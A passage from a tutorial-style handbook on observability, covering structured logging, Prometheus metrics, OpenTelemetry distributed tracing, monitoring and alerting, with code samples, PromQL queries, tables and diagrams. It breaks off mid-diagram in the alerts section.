   Logs get copied to many systems and many people can read them. In 2018 Twitter urged all users to consider changing their passwords after a bug wrote passwords unmasked into an internal log. In 2019 Facebook confirmed it had stored hundreds of millions of passwords in plain text in internal systems.

```mermaid
flowchart LR
    subgraph NodeA["Server or Kubernetes node"]
        AppA["App container<br/>writes JSON to stdout"]
        Agent["Log agent<br/>Fluent Bit"]
    end
    AppA -->|"stdout"| Agent
    Agent -->|"parse, add pod/host,<br/>redact secrets"| Buffer["Buffer (optional)<br/>Kafka"]
    Buffer --> Store[("Log store<br/>Elasticsearch / Loki / Splunk")]
    Store --> UI["Search UI<br/>Kibana / Grafana"]
    Store -->|"after 14 days"| Archive[("Cheap archive<br/>S3")]
```

```mermaid
sequenceDiagram
    participant U as User
    participant GW as API Gateway
    participant OS as Order Service
    participant PS as Payment Service
    U->>GW: POST /checkout
    Note over GW: creates request_id = req-7f3a9c21
    GW->>OS: create order, header X-Request-ID = req-7f3a9c21
    Note over OS: every log line has req-7f3a9c21
    OS->>PS: charge card, same X-Request-ID
    Note over PS: every log line has req-7f3a9c21
    PS-->>OS: card declined
    OS-->>GW: 402 Payment Required
    GW-->>U: Payment failed, please try another card
```

**💻 Example:** Structured JSON logs with a request ID in Python, using `structlog`:

```python
import logging, uuid
import structlog

structlog.configure(
    processors=[
        structlog.contextvars.merge_contextvars,          # add request_id etc. to every line
        structlog.processors.add_log_level,
        structlog.processors.TimeStamper(fmt="iso", utc=True),
        structlog.processors.JSONRenderer(),               # one JSON object per line
    ],
    wrapper_class=structlog.make_filtering_bound_logger(logging.INFO),  # drop DEBUG
)
log = structlog.get_logger(service="payment")

def handle_request(headers, order_id, amount_cents):
    # Reuse the caller's ID, or create one if we are the first service
    request_id = headers.get("X-Request-ID") or f"req-{uuid.uuid4().hex[:8]}"
    structlog.contextvars.bind_contextvars(request_id=request_id)
    log.info("payment_started", order_id=order_id, amount_cents=amount_cents)
    log.debug("hidden in production")                     # filtered out (below INFO)
    log.error("payment_failed", order_id=order_id, reason="card_declined")
```

This prints something like:
`{"service": "payment", "request_id": "req-7f3a9c21", "order_id": 9001, "amount_cents": 4999, "event": "payment_started", "level": "info", "timestamp": "2026-10-27T14:03:22.481Z"}`

In Node.js, `pino` does the same job. It can also **redact** secrets automatically:

```js
const pino = require('pino');
const logger = pino({
  level: 'info',
  redact: ['password', 'card.number', 'req.headers.authorization'], // never ship secrets
});
logger.info({ orderId: 9001, password: 'hunter2' }, 'login attempt');
// {"level":30,"time":...,"orderId":9001,"password":"[Redacted]","msg":"login attempt"}
```

**🌍 Real-world usage:**
- The **ELK stack** (Elasticsearch + Logstash + Kibana) is the classic open-source log platform.
- **Grafana Loki** indexes only a few labels (like `app` and `namespace`) instead of every word, which makes it much cheaper to run.
- **Splunk** is common in large enterprises and security teams.
- **Datadog Logs**, **AWS CloudWatch Logs** and **Google Cloud Logging** are managed options.
- On **Kubernetes**, containers log to stdout, and a Fluent Bit **DaemonSet** (one agent per node) ships the logs.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Plain-text logs | Tiny scripts, local debugging | Hard to search/aggregate at scale |
| Structured JSON logs | Any real service | Slightly bigger lines, and less pleasant to read raw |
| Elasticsearch/OpenSearch (full-text index) | You need fast search on any word | Indexing everything is CPU/RAM/disk hungry, so it's expensive |
| Loki (labels-only index) | Cost matters, and you usually filter by service/pod first | Full-text search over huge ranges is slower |
| Log sampling | High-volume, repetitive success logs | You might miss a rare event in the dropped part |

**⚠️ Common mistakes:**
- Logging secrets or PII: passwords, tokens, full card numbers, `Authorization` headers, entire request bodies.
- No request/trace ID, which makes a single user's journey across services impossible to follow.
- Logging at INFO inside hot loops. It slows the app and explodes the bill.
- Using logs as metrics (counting log lines to compute rates). Emit a counter instead (#84).
- Inconsistent field names (`userId`, `user_id`, `uid`) that break every saved query.

**🎯 Remember:** Log **structured JSON**, at the **right level**, with a **request ID**, **without secrets**, and ship it to a **central** place with a retention plan.

**🔗 See also:** [#82 Observability](#82-observability), [#84 Metrics](#84-metrics), [#85 Distributed Tracing](#85-distributed-tracing), [#86 Monitoring](#86-monitoring)

---

### 84. Metrics

> **In one line:** Metrics are numbers your system records over time (how many requests, how many errors, how slow) so you can spot trends and problems at a glance.

**🏠 Real-life analogy:** Think of a fitness tracker.
- The **step count** only goes up during the day. That's a **counter**.
- Your **heart rate** goes up and down. That's a **gauge**.
- The weekly sleep chart says "2 nights under 6 h, 4 nights 6–8 h, 1 night over 8 h". That's a **histogram**, which counts how many values fell into each range.

You don't read a minute-by-minute diary of your day (logs) to know you're getting fitter. You look at a few numbers trending over time.

**❓ What problem does it solve?**
- At 50,000 requests per second, nobody can read logs to answer "is the error rate going up?". Metrics answer it instantly.
- Metrics are **cheap**. A counter is a single number no matter how much traffic flows through it, while logs grow with every request.
- Dashboards, capacity planning and most alerts are built on metrics.
- Without metrics, you notice problems only when users complain.

**⚙️ How it works:**
1. **A metric is a name, some labels and a value over time.** For example, `http_requests_total{method="GET", status="200"}`. Each **unique combination of labels** is its own **time series** (a list of timestamp/value pairs).
2. **The four metric types** (Prometheus terms):

| Type | Behavior | Examples | How you usually query it |
|---|---|---|---|
| **Counter** | Only goes **up** (resets to 0 when the app restarts) | `http_requests_total`, `errors_total`, `bytes_sent_total` | `rate()`: "per second over the last 5 min" |
| **Gauge** | Goes **up and down** | `memory_bytes`, `queue_depth`, `active_connections`, `temperature_celsius` | Use the value directly, or `avg`/`max` |
| **Histogram** | Counts observations into **buckets** (`le` = "less than or equal"), plus `_sum` and `_count` | Request duration buckets: ≤0.1 s, ≤0.5 s, ≤1 s | `histogram_quantile()` for p95/p99. You **can** combine it across servers |
| **Summary** | The app itself computes quantiles (p50, p99) | `rpc_duration_seconds{quantile="0.99"}` | Read it directly. You **cannot** correctly average quantiles across servers |

3. **Percentiles beat averages.** **p99** (99th percentile) means "99% of requests were faster than this". An average of 100 ms can hide the fact that 1 in 100 users waits 5 seconds. Those users are often your best customers, with the biggest carts.
4. **The Prometheus pull model.**
   1. Each app exposes a plain-text page at `/metrics`.
   2. The Prometheus server finds the apps through **service discovery** (for example, by asking Kubernetes) and **scrapes** each `/metrics` page every 15–30 s.
   3. It stores the data in its time-series database (**TSDB**).
   4. You query that data with **PromQL**, and alert rules send firing alerts to **Alertmanager**.
   5. Short-lived batch jobs can't wait to be scraped, so they **push** their metrics to a **Pushgateway** instead, and Prometheus scrapes that.
5. **Push model alternative.** Here the app or an agent sends the metrics out on its own. Examples: StatsD, the Datadog agent, and OTLP push to an OTel Collector.
6. **What to measure: three famous checklists.**

| Method | Use it for | The signals | Origin |
|---|---|---|---|
| **RED** | Request-driven services (APIs, microservices) | **R**ate (requests/sec), **E**rrors (failed/sec), **D**uration (latency distribution) | Tom Wilkie, ~2015 |
| **USE** | Resources (CPU, memory, disk, network, connection pools) | **U**tilization (% busy), **S**aturation (work waiting in a queue), **E**rrors | Brendan Gregg |
| **Four Golden Signals** | Any user-facing system | **Latency**, **Traffic**, **Errors**, **Saturation** | Google SRE book (2016), "Monitoring Distributed Systems" |

   For example, USE for a CPU means utilization = % busy, saturation = the run-queue length (how many processes are waiting for the CPU), errors = hardware errors.
7. **The high-cardinality trap.** **Cardinality** is the number of unique time series. Every new label value creates a **new series** in memory.
   - Suppose you add `user_id` as a label with 10 million users, then multiply by 5 status codes and 20 routes. That's up to **1 billion series**. Prometheus runs out of memory, and SaaS bills (often priced per series) explode.
   - Labels must have a **small, bounded** set of values: `method`, `status`, `region`, and the route **template** `/users/:id` (never `/users/12345`).
   - Put per-user details in **logs and traces** instead.
8. **Grafana dashboards** turn PromQL queries into graphs. A good service dashboard shows RED at the top, then dependencies, then resources (USE).

```mermaid
flowchart LR
    SD["Service discovery<br/>Kubernetes API"] -->|"list of targets"| Prom["Prometheus server<br/>scrapes every 15s"]
    Prom -->|"GET /metrics"| App1["Order service<br/>:8000/metrics"]
    Prom -->|"GET /metrics"| App2["Payment service<br/>:8000/metrics"]
    Prom -->|"GET /metrics"| NodeExp["node_exporter<br/>CPU, RAM, disk"]
    Batch["Nightly batch job"] -->|"push"| PGW["Pushgateway"]
    Prom -->|"GET /metrics"| PGW
    Prom --> TSDB[("Time-series DB")]
    TSDB -->|"PromQL"| Grafana["Grafana dashboards"]
    Prom -->|"firing alerts"| AM["Alertmanager"]
```

**💻 Example:** This is what Prometheus sees at `GET /metrics`. It's a simple text format:

```text
# HELP http_requests_total Total HTTP requests handled.
# TYPE http_requests_total counter
http_requests_total{method="GET",path="/orders",status="200"} 10234
http_requests_total{method="POST",path="/orders",status="500"} 17
# HELP orders_in_queue Orders waiting to be processed.
# TYPE orders_in_queue gauge
orders_in_queue 42
# HELP http_request_duration_seconds Request latency.
# TYPE http_request_duration_seconds histogram
http_request_duration_seconds_bucket{le="0.1"} 8000
http_request_duration_seconds_bucket{le="0.5"} 9900
http_request_duration_seconds_bucket{le="1.0"} 10200
http_request_duration_seconds_bucket{le="+Inf"} 10251
http_request_duration_seconds_sum 1432.7
http_request_duration_seconds_count 10251
```

Histogram buckets are **cumulative**: the `le="0.5"` bucket also includes the 8,000 requests that were ≤ 0.1 s.

Producing these metrics in Python with the official `prometheus_client` library:

```python
import random, time
from prometheus_client import Counter, Gauge, Histogram, start_http_server

REQUESTS = Counter("http_requests_total", "Total HTTP requests", ["method", "path", "status"])
QUEUE    = Gauge("orders_in_queue", "Orders waiting to be processed")
LATENCY  = Histogram("http_request_duration_seconds", "Request latency",
                     buckets=[0.05, 0.1, 0.25, 0.3, 0.5, 1.0, 2.5])  # include your SLO threshold!

def handle_order():
    with LATENCY.time():                          # records how long this block took
        time.sleep(random.uniform(0.01, 0.4))     # pretend to do work
        status = "500" if random.random() < 0.02 else "200"
    REQUESTS.labels("POST", "/orders", status).inc()   # bounded labels only, no user_id!

if __name__ == "__main__":
    start_http_server(8000)                       # serves http://localhost:8000/metrics
    while True:
        QUEUE.set(random.randint(0, 50))          # gauges are set, not incremented
        handle_order()
```

PromQL queries you'll use every day:

```text
# Traffic: requests per second over the last 5 minutes, per service
sum by (job) (rate(http_requests_total[5m]))

# Errors: share of requests that returned 5xx (0.05 = 5%)
sum(rate(http_requests_total{status=~"5.."}[5m]))
  / sum(rate(http_requests_total[5m]))

# Latency: p99, meaning 99% of requests were faster than this
histogram_quantile(0.99, sum by (le) (rate(http_request_duration_seconds_bucket[5m])))

# Saturation: a gauge, so no rate() needed
orders_in_queue
```

**🌍 Real-world usage:**
- **Prometheus** was created at SoundCloud in 2012, inspired by Google's internal Borgmon. It became the second project to join the CNCF, after Kubernetes, and is the default metrics system in the Kubernetes world.
- **Thanos**, **Cortex**, **Grafana Mimir** and **VictoriaMetrics** add long-term storage and scale-out on top of the Prometheus model.
- **Datadog**, **AWS CloudWatch** and **Google Cloud Monitoring** are managed alternatives.
- Netflix built **Atlas**, and Uber built **M3** (both open source), to store metrics at a scale most off-the-shelf tools couldn't handle at the time.
- **Grafana** is the most common dashboard tool. The community shares ready-made dashboards, for example for `node_exporter`.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| **Pull** (Prometheus scrapes) | Long-running services. Prometheus knows when a target is down (`up == 0`) | Needs network access to every target, and short jobs need the Pushgateway |
| **Push** (StatsD, OTLP, Datadog agent) | Short-lived jobs, serverless functions, apps behind firewalls/NAT | Harder to tell "app is dead" from "app is quiet" |
| **Histogram** | Latency/size where you need percentiles across many servers | You must choose bucket boundaries up front |
| **Summary** | A single instance needing exact quantiles | Can't aggregate across instances |

**⚠️ Common mistakes:**
- Using **high-cardinality labels** (`user_id`, `email`, `order_id`, raw URL paths). This is the number-one way to crash Prometheus or explode a bill.
- Graphing a raw counter (it just goes up forever) instead of `rate(counter[5m])`. Or the opposite mistake: applying `rate()` to a gauge.
- Watching only **averages**. Use p95/p99 latency.
- Averaging `summary` quantiles across pods. That is mathematically wrong, so use histograms.
- Choosing histogram buckets that don't include your SLO threshold. If the SLO is "under 300 ms" and you have no `0.3` bucket, you can't measure it accurately.

**🎯 Remember:** Counters only go up, gauges go up and down, and histograms give you percentiles. Track **RED** for services, **USE** for resources, and the **Four Golden Signals** for users. **Never** use user IDs as labels.

**🔗 See also:** [#82 Observability](#82-observability), [#86 Monitoring](#86-monitoring), [#87 Alerts](#87-alerts), [#88 SLIs](#88-slis)

---


### 85. Distributed Tracing

> **In one line:** A trace follows one request on its whole journey through all your services and times every stop, like a parcel-tracking page.

**🏠 Real-life analogy:** When you ship a parcel, you get one **tracking number**. Every warehouse that scans the parcel adds a line with the time and place. If the parcel is late, the tracking page shows it sat for two days in one hub, so you know exactly where the delay was. In tracing, the tracking number is the **trace ID**, and each scan or stop is a **span**.

**❓ What problem does it solve?**
- A user says "checkout takes 3 seconds". That request touched the gateway, auth, orders, inventory, the database and payment. **Which one is slow?**
- Metrics show the overall p99 went up. Logs live separately in each service. Without tracing, each team checks its own dashboard and says "not us".
- Errors that happen deep down (for example, payment timed out, so orders returned 500) are hard to connect back to the user request that triggered them.
- Tracing shows the **whole tree of calls** with timings. You can see the slow or failing hop in seconds, plus a map of which services call which.

**⚙️ How it works:**
1. **Trace** = the whole journey of one request. It's identified by a **trace ID** (16 bytes, written as 32 hex characters).
2. **Span** = one step in the journey, such as an HTTP call, a DB query or a function. Each span has:
   - a **span ID**, plus its **parent span ID** (spans form a tree);
   - a name, a start time and a duration;
   - a status (OK/error);
   - **attributes**, which are key-value details such as `http.response.status_code=500` or `db.system=postgresql`.
3. **Root span.** The first service (usually the gateway) starts the trace and creates the root span. Each service it calls creates **child spans**.
4. **Context propagation.** When service A calls service B, A **injects** the trace context into the request headers. B **extracts** it and creates a child span with the same trace ID. The standard header is **W3C Trace Context** (a W3C Recommendation since 2020):

   ```http
   traceparent: 00-4bf92f3577b34da6a3ce929d0e0e4736-00f067aa0ba902b7-01
   ```

   | Part | Value | Meaning |
   |---|---|---|
   | version | `00` | Format version |
   | trace-id | `4bf92f3577b34da6a3ce929d0e0e4736` | Same for every span in this request |
   | parent-id | `00f067aa0ba902b7` | Span ID of the caller's span |
   | trace-flags | `01` | `01` = "sampled", meaning this trace is being recorded |

   A companion `tracestate` header carries vendor-specific data. Older systems used Zipkin's `X-B3-TraceId` headers or Jaeger's `uber-trace-id`. For message queues (Kafka, SQS), the context goes into **message headers/attributes**.
5. **Export.** Each service sends its finished spans in the background, in batches, to a collector. The backend groups spans by trace ID and draws a **waterfall** view.
6. **Sampling.** Recording every trace of every request is expensive, so you keep only some of them:

| Sampling type | When the keep/drop decision is made | Pros | Cons |
|---|---|---|---|
| **Head-based** | At the **start**, by the first service (e.g., "keep 10%"). The decision travels in the `01` flag | Cheap and simple. No buffering | Decided before you know the outcome, so it may drop the rare slow or failed trace |
| **Tail-based** | At the **end**, in the collector, after all spans arrive | Can keep 100% of errors and slow traces plus 1% of normal ones | The collector must buffer every span in memory, and all spans of a trace must reach the same collector |
| **Rate-limited / adaptive** | Per service, e.g., "max 10 traces/sec" | Predictable cost | Rare endpoints can be under-represented |

7. **Connect to other signals.** Put the `trace_id` in every log line. Attach **exemplars** (a sample trace ID) to latency metrics. Then you can click from a slow point on a graph straight to the slow trace.

```mermaid
sequenceDiagram
    participant GW as API Gateway
    participant OS as Order Service
    participant PS as Payment Service
    participant Col as OTel Collector
    GW->>GW: start root span A, new trace id 4bf92f35...
    GW->>OS: POST /orders, traceparent 00-4bf92f35...-spanA-01
    OS->>OS: start child span B, parent is A
    OS->>PS: POST /charge, traceparent 00-4bf92f35...-spanB-01
    PS->>PS: start child span C, parent is B
    PS-->>OS: 200 OK
    OS-->>GW: 201 Created
    PS->>Col: export span C
    OS->>Col: export span B
    GW->>Col: export span A
    Note over Col: groups spans by trace id into one tree
```

The waterfall below is how a tracing UI (Jaeger, Tempo, Datadog) shows one trace. Each bar is a span, and the x-axis is milliseconds since the request started. The **payment** bar stands out as the slowest part:

```mermaid
gantt
    title One trace for POST /checkout - total 480 ms
    dateFormat x
    axisFormat %L ms
    section Gateway
    POST /checkout root span    :0, 480
    section Auth
    verify JWT                  :10, 60
    section Orders
    create order                :70, 460
    section Database
    INSERT INTO orders          :90, 180
    section Payment
    charge card - slow          :200, 440
```

**💻 Example:** Manual instrumentation with the OpenTelemetry Python SDK:

```python
# pip install opentelemetry-sdk opentelemetry-exporter-otlp
from opentelemetry import trace
from opentelemetry.sdk.resources import Resource
from opentelemetry.sdk.trace import TracerProvider
from opentelemetry.sdk.trace.export import BatchSpanProcessor
from opentelemetry.sdk.trace.sampling import ParentBased, TraceIdRatioBased
from opentelemetry.exporter.otlp.proto.grpc.trace_exporter import OTLPSpanExporter

provider = TracerProvider(
    resource=Resource.create({"service.name": "order-service"}),
    sampler=ParentBased(TraceIdRatioBased(0.10)),   # head sampling: keep 10% of new traces
)
provider.add_span_processor(BatchSpanProcessor(     # send spans in background batches
    OTLPSpanExporter(endpoint="http://otel-collector:4317", insecure=True)))
trace.set_tracer_provider(provider)
tracer = trace.get_tracer("order-service")

def create_order(user_id, items):
    with tracer.start_as_current_span("create_order") as span:      # parent span
        span.set_attribute("order.item_count", len(items))          # no PII in attributes!
        with tracer.start_as_current_span("db.insert_order"):       # child span 1
            save_to_db(user_id, items)
        with tracer.start_as_current_span("payment.charge") as pay: # child span 2
            if not charge_card(user_id):
                pay.set_status(trace.Status(trace.StatusCode.ERROR, "card declined"))
```

You can also use **zero-code** auto-instrumentation. It traces Flask/Django, `requests`, database drivers and more, and it propagates `traceparent` for you:

```bash
pip install opentelemetry-distro opentelemetry-exporter-otlp
opentelemetry-bootstrap -a install        # installs instrumentations for libraries you use
OTEL_SERVICE_NAME=order-service \
OTEL_EXPORTER_OTLP_ENDPOINT=http://otel-collector:4317 \
OTEL_TRACES_SAMPLER=parentbased_traceidratio OTEL_TRACES_SAMPLER_ARG=0.1 \
opentelemetry-instrument python app.py
```

**🌍 Real-world usage:**
- **Origin:** Google's 2010 paper *"Dapper, a Large-Scale Distributed Systems Tracing Infrastructure"* described tracing requests across Google's production services with low overhead, using sampling. Most modern tracing systems descend from it.
- **Zipkin** was built at Twitter, inspired by Dapper, and open-sourced in 2012. **Jaeger** was built at Uber and later became a CNCF graduated project.
- **Grafana Tempo** stores traces cheaply in object storage. **Honeycomb**, **Datadog APM**, **New Relic**, **Lightstep** and **AWS X-Ray** are commercial options.
- OpenTracing and OpenCensus merged into **OpenTelemetry**, now the standard way to produce traces.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Pinpoints which hop is slow or failing in seconds | Every service (and proxy/queue) must propagate context, and one gap breaks the trace |
| Auto-generates a service dependency map | Storage cost at high traffic, so you need sampling |
| Shows hidden problems like N+1 queries (many tiny DB calls in a loop) and retries | Small CPU/network overhead per span |
| Connects logs and metrics through `trace_id` | Head sampling can drop the interesting traces, and tail sampling is complex to run |

**⚠️ Common mistakes:**
- **Broken propagation.** A proxy, a homemade HTTP client or a message queue drops `traceparent`, so one request appears as several unrelated traces.
- Head-sampling at 1% and then wondering why the error trace is missing. Use tail sampling to keep errors and slow requests.
- Putting PII or secrets in span attributes (full SQL with values, emails, tokens).
- Creating a span for every tiny function. Spans should cover meaningful work: network calls, DB queries, and big steps.
- Not putting `trace_id` into logs, which wastes the best link between the two signals.

**🎯 Remember:** A **trace** is the journey and a **span** is one step. The `traceparent` header carries the trace ID from service to service. Sample smartly so you keep the errors and the slow requests.

**🔗 See also:** [#82 Observability](#82-observability), [#83 Logging](#83-logging), [#84 Metrics](#84-metrics), [#86 Monitoring](#86-monitoring)

---

### 86. Monitoring

> **In one line:** Monitoring means constantly watching your system's key numbers and health checks, so you notice quickly (ideally before users do) when something goes wrong.

**🏠 Real-life analogy:** In a hospital ICU, a patient monitor shows heart rate, oxygen and blood pressure. The nurse doesn't stare at it all day. It **beeps** when oxygen drops below a safe level. The nurse also walks in from time to time and asks, "How do you feel?" That is checking from the **outside**. Software monitoring does both: it reads the internal numbers (white-box) and it tests from the outside like a real user would (black-box).

**❓ What problem does it solve?**
- Without monitoring, **your users are your monitoring**. You find out from angry tweets and support tickets, often hours later.
- Slow-building problems go unnoticed until they explode. For example, a disk fills up at 2% per day, a TLS certificate is about to expire, or a queue keeps growing.
- You can't answer "did yesterday's deploy make things worse?" or "do we need more servers before Black Friday?"
- Monitoring shortens **time to detect**, and a problem can't be fixed until someone detects it.

**⚙️ How it works:**
1. **White-box vs black-box monitoring:**

| | White-box (inside view) | Black-box (outside view) |
|---|---|---|
| How | Read metrics, logs and traces that the app and its servers emit | Act like a user: call the URL, run a login flow, from outside your network |
| Shows | Causes and early warnings (queue growing, DB slow) | Symptoms users actually feel (site down, slow, bad certificate) |
| Blind spot | If the app, network or DNS is dead, it may report **nothing** | Says **that** it broke, not **why** |
| Tools | Prometheus exporters, APM agents (Datadog, New Relic) | Prometheus `blackbox_exporter`, Pingdom, UptimeRobot, Checkly, Datadog Synthetics |

2. **Synthetic monitoring and uptime checks.**
   - A **synthetic monitor** is a robot user. It runs a script every 1–5 minutes from several regions, e.g., "open homepage, log in, add to cart, pay with a test card".
   - The simplest version is an **uptime check**: "does `GET /health` return 200 within 2 seconds?"
   - Synthetic checks catch DNS, CDN and certificate problems that internal metrics can't see.
3. **Real User Monitoring (RUM).**
   - A small JavaScript snippet (or a mobile SDK) runs in **real users'** browsers and apps. It reports page load times, JavaScript errors and Google's **Core Web Vitals**: LCP (how fast the main content shows), INP (how quickly the page reacts to clicks) and CLS (how much the layout jumps around).
   - Synthetic checks give you **lab** conditions. RUM gives you **reality**: slow phones, bad networks, far-away countries.
4. **Infrastructure vs application monitoring.**
   - **Infrastructure:** hosts, VMs, containers, Kubernetes nodes and pods. You watch CPU, memory, disk, network and restarts. Typical tools are `node_exporter`, `kube-state-metrics` and cAdvisor.
   - **Application:** request rate, errors, latency (RED), dependency health and **business metrics** (orders per minute, sign-ups, payments).
   - Users only feel the application layer. CPU can be fine while every checkout fails.
5. **Dashboards.**
   - Keep a **few** focused dashboards. Put the user-facing view at the top (SLOs, golden signals), dependencies in the middle and infrastructure at the bottom.
   - Mark **deploys** on the graphs so you can see "it broke right after version 2.3".
   - Every graph should answer a question someone actually asks.
6. **Popular tools:**
   - **Prometheus + Grafana**: open source, the Kubernetes default.
   - **Datadog**: an all-in-one SaaS.
   - **New Relic**: an APM pioneer, now a full platform.
   - **AWS CloudWatch**: built into AWS. Google Cloud Monitoring and Azure Monitor are the equivalents on those clouds.
   - **Nagios/Zabbix**: classic host monitoring.

7. **"What should my first dashboard have?" checklist:**

- [ ] **Traffic**: requests per second, overall and per main endpoint
- [ ] **Errors**: 5xx error rate in %, with 4xx shown separately
- [ ] **Latency**: p50, p95 and p99 (not just the average)
- [ ] **Saturation**: CPU, memory, disk %, DB connection pool usage, queue depth
- [ ] **SLO status**: current SLI vs target, and error budget remaining (#89, #90)
- [ ] **Dependencies**: DB query latency, cache hit rate, third-party API errors
- [ ] **Deploy markers** on every graph
- [ ] **Outside view**: uptime/synthetic check status from several regions
- [ ] **One business metric**: orders/min, sign-ups/min or messages sent/min

```mermaid
flowchart LR
    Collect["1. Collect<br/>metrics, logs, probes"] --> Store["2. Store<br/>TSDB, log store"]
    Store --> Visualize["3. Visualize<br/>dashboards"]
    Store --> Alert["4. Alert<br/>rules fire"]
    Alert --> Respond["5. Respond<br/>on-call follows runbook"]
    Visualize --> Respond
    Respond --> Improve["6. Improve<br/>postmortem, new checks"]
    Improve --> Collect
```

```mermaid
flowchart LR
    subgraph Outside["Black-box: outside view"]
        Probe["Synthetic probes<br/>from 5 regions"]
        Rum["Real users' browsers<br/>RUM snippet"]
    end
    subgraph Inside["White-box: inside view"]
        AppMetrics["App metrics<br/>/metrics"]
        HostMetrics["Host metrics<br/>node_exporter"]
    end
    Probe -->|"HTTPS GET /health"| Site["Your website"]
    Site --- AppMetrics
    Probe -->|"pass/fail + latency"| MonSys["Monitoring system"]
    Rum -->|"page load timings"| MonSys
    AppMetrics --> MonSys
    HostMetrics --> MonSys
```

**💻 Example:** A black-box uptime check with Prometheus and the `blackbox_exporter`. Prometheus asks the exporter to probe your public URLs every 30 s:

```yaml
# prometheus.yml (scrape section)
scrape_configs:
  - job_name: "uptime-shop"
    metrics_path: /probe
    params:
      module: [http_2xx]                 # defined in blackbox.yml: expect an HTTP 2xx
    scrape_interval: 30s
    static_configs:
      - targets:
          - https://shop.example.com
          - https://shop.example.com/api/health
    relabel_configs:                     # standard trick: pass each URL to the exporter
      - source_labels: [__address__]
        target_label: __param_target
      - source_labels: [__param_target]
        target_label: instance
      - target_label: __address__
        replacement: blackbox-exporter:9115
```

Useful queries on top of it:

```text
# Is the site up from the outside? (1 = yes, 0 = no)
probe_success{job="uptime-shop"}

# Days until the TLS certificate expires (alert if under 14)
(probe_ssl_earliest_cert_expiry - time()) / 86400
```

**🌍 Real-world usage:**
- **Monitor from outside your own system.** During the **AWS S3 outage of 2017** (caused by a mistyped command), AWS reported it could not update its own Service Health Dashboard for a while, because the dashboard depended on S3. During the **Facebook 2021 BGP/DNS outage**, Facebook's internal tools were affected by the same network failure, so engineers struggled to diagnose and reach the systems.
- Large sites run synthetic checks from many regions and publish **status pages** (GitHub, Cloudflare, Atlassian).
- E-commerce teams watch **orders per minute** as a top-level health signal, because a sudden drop often means something is broken even when every server looks "green".

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| White-box metrics | Always. Best for causes and early warning | Silent if the whole app/network is down |
| Synthetic / uptime checks | Critical user journeys, certificates, DNS, CDN | Robot traffic only. Misses real-device and real-network problems |
| Real User Monitoring | Front-end performance and real user experience | Privacy and consent concerns, sampling, noisy data |
| SaaS monitoring (Datadog, New Relic) | Fast setup, small team | Cost grows with hosts, custom metrics and logs |
| Self-hosted (Prometheus + Grafana) | Control and lower license cost | You operate and scale it yourself |

**⚠️ Common mistakes:**
- **Dashboard sprawl**: hundreds of dashboards that nobody looks at. Start with one good service dashboard.
- Monitoring only infrastructure (CPU, RAM) and not what users experience (errors, latency, checkouts).
- Running the monitoring stack in the **same** cluster or region as the app, so it dies together with the app.
- Having no black-box check at all, then missing DNS, certificate or CDN outages.
- Forgetting slow, predictable failures: TLS certificate expiry, domain renewal, disk growth.

**🎯 Remember:** Watch from **inside** (white-box) and **outside** (black-box). Start with the golden signals plus one business metric, and make sure your monitoring doesn't go down together with your app.

**🔗 See also:** [#84 Metrics](#84-metrics), [#87 Alerts](#87-alerts), [#88 SLIs](#88-slis), [#89 SLOs](#89-slos)

---

### 87. Alerts

> **In one line:** An alert is an automatic tap on the shoulder (or a 3 a.m. phone call) that says "a human needs to look at this right now."

**🏠 Real-life analogy:** A smoke detector should go off when there's a **real fire**, because that's what hurts people. If it shrieks every time you make toast, you'll eventually pull the battery out. Then the real fire happens and nobody hears it. That is **alert fatigue**. Smoke detectors also have different "volumes". There's the loud fire alarm (wake everyone up now) and the polite "chirp, change my battery" (deal with it this week). Good alerting works the same way.

**❓ What problem does it solve?**
- Without alerts, problems are found by users, or by an engineer who happens to glance at a dashboard.
- With **bad** alerts, the on-call engineer gets 200 notifications a night. They learn to ignore them and miss the one that matters.
- Alerting on **causes** like "CPU is 90%" fires when users are perfectly fine. It also stays quiet when users are suffering for a reason you didn't predict.
- Good alerting means fewer, smarter alerts that fire when **users are hurting** and tell the human **what to do**.

**⚙️ How it works:**
1. **Alert on symptoms, not causes.**

| | Symptom-based (do this for pages) | Cause-based (dashboards/tickets) |
|---|---|---|
| Example | "5% of checkouts failing for 5 minutes" | "CPU above 90% on node-7" |
| Users affected? | Yes, by definition | Maybe, maybe not |
| Catches unknown failures? | Yes. Any cause shows up as errors or latency | Only the causes you listed |

   Exception: page on a cause only if it will **certainly** become a symptom soon and a human must act, e.g., "disk will be full within 4 hours".
2. **Choose the right response for each alert:**

| Response | Urgency | Use when | Example |
|---|---|---|---|
| **Page** (phone call/push, wakes someone up) | Now, 24/7 | Users are hurting (or will be within minutes) **and** a human must act | Checkout error rate above 5% for 5 min, site down from 3 regions, fast error-budget burn |
| **Ticket** (Jira, team queue) | Within business hours/days | Needs a human, but it can wait | Disk 80% full and growing slowly, cert expires in 14 days, slow error-budget burn |
| **Log-only / dashboard** | Nobody is notified | Helpful context while debugging | One pod restarted, short CPU spike, a single retry |

3. **Every page must be actionable.** If the on-call person can't do anything about it, it shouldn't page. Every alert carries a **`runbook_url`**: a page explaining what the alert means, how to confirm it, how to mitigate it and whom to escalate to.
4. **Fight alert fatigue.**
   - Review alerts regularly, then delete or downgrade the noisy ones.
   - Use a `for:` duration so short blips don't fire.
   - Track pages per on-call shift. The Google SRE book suggests aiming for **at most about 2 incidents per 12-hour shift**, so each one can be handled properly.
5. **Severity levels.** A common scheme:
   - `critical`/`page`: wake someone up.
   - `warning`/`ticket`: handle during work hours.
   - `info`: dashboard or Slack only.

   Incidents themselves are often graded separately (SEV1 = biggest).
6. **How Prometheus + Alertmanager handle it:**
   1. Prometheus evaluates **alert rules** every ~30–60 s. A rule is first **pending**. It becomes **firing** only if the condition stays true for the whole `for:` period.
   2. **Alertmanager** takes the firing alerts and then:
      - **groups** them: 50 pods failing becomes **one** notification, not 50;
      - **deduplicates**: two redundant Prometheus servers send the same alert, and you get it once;
      - **inhibits**: if "datacenter down" is firing, it hides the 100 per-service alerts it caused;
      - **silences**: mutes alerts during planned maintenance;
      - **routes** by labels to **PagerDuty/Opsgenie** (pages), a ticket queue, or **Slack** (FYI).
7. **Better thresholds: burn-rate alerts.** "Error rate above 5%" is a blunt threshold. Mature teams alert on how fast they are **burning their error budget** (see #90). That catches both fast outages and slow leaks with fewer false alarms.

```mermaid
stateDiagram-v2
    [*] --> Inactive
    Inactive --> Pending : condition becomes true
    Pending --> Inactive : clears before 5 minutes
